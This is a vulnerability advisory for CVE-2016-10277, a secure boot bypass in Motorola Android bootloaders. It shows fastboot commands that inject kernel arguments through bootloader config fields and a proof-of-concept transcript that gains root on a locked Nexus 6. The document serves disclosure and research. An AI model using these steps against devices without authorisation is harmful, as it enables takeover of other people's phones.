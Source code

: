 ```yaml
---
layout: vuln
credit: roeeh
timeline:
    - type: 'release'
      date: '2017-05-23'
    - type: 'vendor-advisory'
      date: '2017-05-01'
      arg: 'Android Security'
    - type: 'add'
      date: '2017-03-01'      
    - type: 'report'
      date: '2016-12-21'
      arg: 'Android Security'
    - type: 'products-add'
      date: '2017-06-07'
      arg: 'Moto G4 & Moto G5'
    - type: 'products-add'
      date: '2017-06-12'
      arg: 'Moto G3, Moto G4 Play (XT1609), Moto G5 Plus'
    - type: 'products-add'
      date: '2017-06-13'
      arg: 'Moto G2'
    - type: 'products-add'
      date: '2017-06-22'
      arg: 'Moto E CDMA'
    - type: 'products-add'
      date: '2017-07-11'
      arg: 'Moto G4 Play (XT1607)'
    - type: 'products-add'
      date: '2017-08-30'
      arg: 'Moto G (XT1032)'

alephid: ALEPH-2017011
date: '2017-05-23'
severity: 'critical'
product: 
    - Google Nexus 6
    - Moto G5
    - Moto G4
    - Moto G5 Plus ([community reported](https://github.com/alephsecurity/initroot/issues/1))
    - Moto G4 Play XT1609 ([community reported](https://twitter.com/utoprime/status/873941023050919936))
    - Moto G4 Play XT1607 ([community reported](https://github.com/m-mullins/InitRoot_Harpia))
    - Moto G3 ([community reported](https://twitter.com/asiekierka/status/873467107090075648))
    - Moto G2 ([community reported](https://disqus.com/home/discussion/alephsecurity/initroot_hello_moto/#comment-3355705740))
    - Moto G XT1032 ([community reported](http://disq.us/p/1l1uqgb))
    - Moto E CDMA ([community reported](https://alephsecurity.com/2017/06/07/initroot-moto/#comment-3379229648))
    - Other Motorola devices (unconfirmed)
vulnerable: 
    - 'Nexus 6: N6F26Y and earlier.'
    - 'Moto G4: MPJ24.139-63, NPJ25.93-14, NPJS25.93-14.4, other unconfirmed'
    - 'Moto G5: NPP25.137-33, other unconfirmed'
    
mitigation: 'Install Android 7.1.1 N6F27C or later. (Nexus 6)'
    
cve: 'CVE-2016-10277'
title: 'Motorola Android Bootloader Kernel Cmdline Injection Secure Boot Bypass'
references:
    - src: "Google's Advisory (May 2017)"
      url: 'https://source.android.com/security/bulletin/2017-05-01#eop-in-motorola-bootloader'
    - src: 'Factory Images for Nexus and Pixel Devices'
      url: 'https://developers.google.com/android/images'
---
```

Motorola `ABOOT` (Applications Bootloader) contains several arguments that can be controlled through the fastboot interface, even if the bootloader is locked:

On Nexus 6:
```xml
$ fastboot oem config
[...]
(bootloader) <UTAG name="battery" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     Battery detection control
(bootloader)     ("meter_lock" or "no_eprom")
(bootloader)   </description>
(bootloader) </UTAG>

(bootloader) <UTAG name="bootmode" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     To force certain bootmode
(bootloader)     (valid values are "fastboot", "factory", "bp-tools", "q
(bootloader)     com", and "on-device-diag")
(bootloader)   </description>
(bootloader) </UTAG>

(bootloader) <UTAG name="carrier" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     Carrier IDs, see http://goo.gl/lojLh3
(bootloader)   </description>
(bootloader) </UTAG>

(bootloader) <UTAG name="console" type="str" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     Config kernel console log
(bootloader)       enable|true     - enable with default settings
(bootloader)       disable|false   - disable
(bootloader)       <config string> - enable with customized settings
(bootloader)       (e.g.: "ttyHSL0", "ttyHSL0,230400,n8")
(bootloader)   </description>
(bootloader) </UTAG>

(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>

OKAY [  0.048s]
finished. total time: 0.048s
```
The `fsg-id`, `carrier` and `console` parameters can contain arbitrary values, which eventually propagate to the kernel command line.
Now, if the bootloader didn't sanitize these arguments, one could pass arbitrary kernel command line arguments:

```terminal
$ fastboot oem config console "a foo=0 "
$ fastboot oem config fsg-id "a bar=1"
$ fastboot oem config carrier "a baz=2"
```

And indeed, in build `N6F26Y` and earlier:
<div class="language-terminal highlighter-rouge"><pre class="highlight"><code>shamu:/ $ dmesg | grep command
[    0.000000] Kernel command line: <span class="kv">console</span>=<span class="nc">a foo=0 </span>,115200,n8 earlyprintk 
<span class="kv">androidboot.console</span>=<span class="nc">a foo=0 </span> androidboot.hardware=shamu msm_rtb.filter=0x37
ehci-hcd.park=3 utags.blkdev=/dev/block/platform/msm_sdcc.1/by-name/utags
utags.backup=/dev/block/platform/msm_sdcc.1/by-name/utagsBackup coherent_pool=8M
vmalloc=300M buildvariant=user androidboot.bootdevice=msm_sdcc.1 androidboot.serialno=ZX1G427V97
androidboot.baseband=mdm androidboot.version-baseband=D4.01-9625-05.45+FSG-9625-02.117
androidboot.mode=normal androidboot.device=shamu androidboot.hwrev=0x83A0
androidboot.radio=0x7 androidboot.powerup_reason=0x00004000 androidboot.bootreason=reboot
androidboot.write_protect=0 restart.download_mode=0 <span class="kv">androidboot.fsg-id</span>=<span class="nc">a bar=1</span>
androidboot.secure_hardware=1 androidboot.cid=0xDE androidboot.wifimacaddr=F8:CF:C5:9F:8F:EB
androidboot.btmacaddr=F8:CF:C5:9F:8F:EA mdss_mdp.panel=1:dsi:0:qcom,mdss_dsi_mot_smd_596_QHD_dualmipi0_cmd_v0
androidboot.bootloader=moto-apq8084-72.02 <span class="kv">androidboot.carrier</span>=<span class="nc">a baz=2</span> androidboot.hard&lt;
</code></pre>
</div>

## Proof-of-Concept ##

A root exploit for Nexus 6 is demonstrated. PoC is available at our [GitHub research repo](https://github.com/alephsecurity/initroot). 
The following shows a successful attack:

```terminal
$ adb root
adbd cannot run as root in production builds

$ adb shell
shamu:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:shell:s0
shamu:/ $ getenforce
Enforcing
shamu:/ $ setenforce permissive
setenforce: Couldn't set enforcing status to 'permissive': Permission denied
shamu:/ $ reboot bootloader

$ fastboot getvar unlocked
[...]
unlocked: no
finished. total time: 0.008s

$ fastboot oem config fsg-id "a initrd=0x11000000,1518172"
[...]
(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)     a initrd=0x11000000,1518172
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>

OKAY [  0.016s]
finished. total time: 0.016s

$ fastboot flash aleph malicious.cpio.gz
[...]
target reported max download size of 536870912 bytes
sending 'aleph' (1482 KB)...
OKAY [  0.050s]
writing 'aleph'...
(bootloader) Not allowed in LOCKED state!
FAILED (remote failure)
finished. total time: 0.054s

$ fastboot continue
[...]
resuming boot...
OKAY [  0.007s]
finished. total time: 0.007s

$ adb shell
shamu:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
shamu:/ # getenforce
Enforcing
shamu:/ # setenforce permissive
shamu:/ # getenforce
Permissive
shamu:/ #
```

